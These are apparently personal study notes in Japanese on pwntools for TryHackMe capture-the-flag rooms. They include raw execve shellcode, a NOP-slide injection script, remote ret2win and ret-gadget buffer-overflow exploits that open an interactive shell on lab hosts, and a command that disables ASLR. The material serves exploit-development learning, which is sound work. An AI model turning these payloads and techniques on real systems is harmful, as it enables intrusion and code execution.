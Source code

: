 # pwntools

https://github.com/Gallopsled/pwntools

https://tryhackme.com/room/introtopwntools

## インストール

kali の場合、pwn と打ってインストールされていなければインストールするか聞かれるので Yes と答えるだけ。

## コマンド

### checksec

```shell
# 実行ファイルで有効になっているセキュリティ機構を調べる
checksec --file <file>
```

### cyclic

```shell
cyclic 100 > pattern

cat pattern
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```shell
# バッファオーバーフローをテストする
gdb> r < pattern
```

eip が `jaaa` で上書きされていたとして、その部分を目的の関数アドレスにしたペイロードを作成したい場合。

```python
# gdb> disassemble <function> 等で関数アドレスを得る
from pwn import *

padding = cyclic(cyclic_find('jaaa'))
eip = p32(0x08048536)
payload = padding + eip
print(payload)
```

### shellcraft

64 ビットの場合、amd64.linux.execve

```shell
# シェルコードのアセンブラ出力
pwn shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f a

# シェルコードのバイトコード出力
pwn shellcraft i386.linux.execve "/bin///sh" "['sh', '-p']" -f s

# \xNN の形に統一
pwn shellcraft i386.linux.execve "/bin///sh" "['sh','-p']" -f s | python3 -c "import sys; from codecs import decode; s=sys.stdin.read().strip()[2:-1]; print(''.join(f'\\x{b:02x}' for b in decode(s, 'unicode_escape')))"
```

```shell
# SETREUID のシェルコード出力
pwn shellcraft -f d amd64.linux.setreuid 1002
```

シェルコードを埋め込む例

```python
from pwn import *

proc = process('./intro2pwnFinal')
proc.recvline()

padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd510+200)
nop_slide = "\x90"*1000
# ブレークポイント命令（シェルコードを入れる前のテスト用）
# shellcode = "\xcc"
shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
payload = padding + eip + nop_slide + shellcode

proc.send(payload)

# シェルと通信するためインタラクティブが必要
proc.interactive()
```

（参考）ASLR（アドレス空間配置のランダム化）無効化

```shell
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

## ネットワーク経由

```python
from pwn import *

connect = remote('127.0.0.1', 1336)
print(connect.recvn(18))
payload = "A"*32
payload += p32(0xdeadbeef)
connect.send(payload)

print(connect.recvn(34))
```

## バイナリ解析

```python
# ライブラリをロード
>>> from pwn import *

# バイナリをロード
>>> binary = context.binary = ELF("./elf_file")

# 関数のアドレス
>>> hex(binary.symbols['vuln'])

# retガジェット
>>> ret_gadget = ROP(binary).find_gadget(['ret'])[0]
```

## 例

### バッファオーバーフロー

```shell
#!/usr/bin/env pyhon3
from pwn import *
import sys

host = "10.10.37.23"
port = 5700
context(terminal = ['tmux', 'new-window'])

binary = context.binary = ELF("./DearQA-1627223337406.DearQA")
context(os = "linux", arch = "amd64")
connect = remote(host, port)
log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")
payload = b'A' * 40
payload += p64(0x00400686)
log.info("[+] Sending Payload to the remote server")
connect.sendline(payload)
connect.interactive()
```

上記の例で、binary と 2 か所の context は、コメントアウトしても機能する。

### ret ガジェット

64 ビット OS で、RSP が 16 バイト境界にない場合、ret ガジェットが必要になる。

RSP 0x7fffffffdcf8 　のように、末尾が 0 出ない場合ずれている。

```python
from pwn import *

# Set the binary context
elf = context.binary = ELF('./tryretme')  # Replace with the actual binary name

# Connect to the remote server
p = remote('10.10.23.250', 9006)

# Address of the win function
win_addr = elf.symbols['win']

# Address of a `ret` gadget (you can find this with tools like ROPgadget or Pwntools)
# This gadget is simply one instruction: `ret`, which fixes stack alignment.
ret_gadget = ROP(elf).find_gadget(['ret'])[0]

# Offset (determined from cyclic_find)
offset = 264

# Payload: buffer + ret gadget + return address (win function)
payload = b'A' * offset
payload += p64(ret_gadget)  # Add the ret gadget to fix alignment
payload += p64(win_addr)

# Send the payload
p.sendlineafter('Return to where? : ', payload)

# Interact with the shell
p.interactive()
```

### 受信したデータをペイロードに反映する

TryPwnMeOne CTF 参照。

```python
#!/usr/bin/env pyhon3
from pwn import *
import sys

host = "10.10.61.104"
port = 9007

vuln_addr = 0x1319
win_addr = 0x1210
ret_gadget = 0x101a

context(os = "linux", arch = "amd64")
connect = remote(host, port)

# vuln関数アドレスを表示する行を受信するまで待つ
while True:
    line = connect.recvline().decode()
    log.info(f"{line.strip()}")
    if "I can give you a secret" in line:
        break

# アドレス部分（16進数）を抽出
match = re.search(r"I can give you a secret ([0-9a-fA-F]+)", line)
if match:
    vuln_abs_addr = int(match.group(1), 16)
    log.info(f"[+] vuln address: {hex(vuln_abs_addr)}")
    offset = vuln_abs_addr - vuln_addr
else:
    log.error("vulnアドレスの抽出に失敗しました")
    sys.exit(1)

log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"Where are we going? : ")
log.info("[+] Crafting payload")
payload = b'A' * (256+8)

payload += p64(offset + ret_gadget) # retガジェット
payload += p64(offset + win_addr)
log.info("[+] Sending Payload to the remote server")
connect.sendline(payload)
connect.interactive()
```
